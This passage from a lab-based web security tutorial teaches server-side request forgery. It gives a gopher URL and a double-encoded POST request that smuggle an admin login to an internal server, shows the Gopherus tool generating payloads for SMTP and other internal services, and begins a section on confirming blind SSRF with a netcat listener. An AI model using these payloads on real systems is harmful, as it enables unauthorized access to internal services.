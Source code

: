 ```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

Our specified bytes are sent to the target when the web application processes this URL. Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. However, since we are sending our URL within the HTTP POST parameter `dateserver`, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it. Otherwise, we will get a `Malformed URL` error. After URL encoding the entire gopher URL one more time, we can finally send the following request:
```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

We can use the `gopher` protocol to interact with many internal services, not just HTTP servers. Imagine a scenario where we identify, through an SSRF vulnerability, that TCP port 25 is open locally. This is the standard port for SMTP servers. We can use Gopher to interact with this internal SMTP server as well. However, constructing syntactically and semantically correct gopher URLs can take time and effort. Thus, we will utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. The following services are supported:

- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache

To run the tool, we need a valid Python2 installation. Afterward, we can run the tool by executing the Python script downloaded from the GitHub repository:
```shell-session
python2.7 gopherus.py
```

Let us generate a valid SMTP URL by supplying the corresponding argument. The tool asks us to input details about the email we intend to send. Afterward, we are given a valid gopher URL that we can use in our SSRF exploitation:
```shell-session
python2.7 gopherus.py --exploit smtp
```
# Blind SSRF
In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called `blind` SSRF vulnerabilities because we cannot see the response.
## Identifying Blind SSRF
We can confirm the SSRF vulnerability by supplying a URL to a system under our control and setting up a `netcat` listener with `nc`.
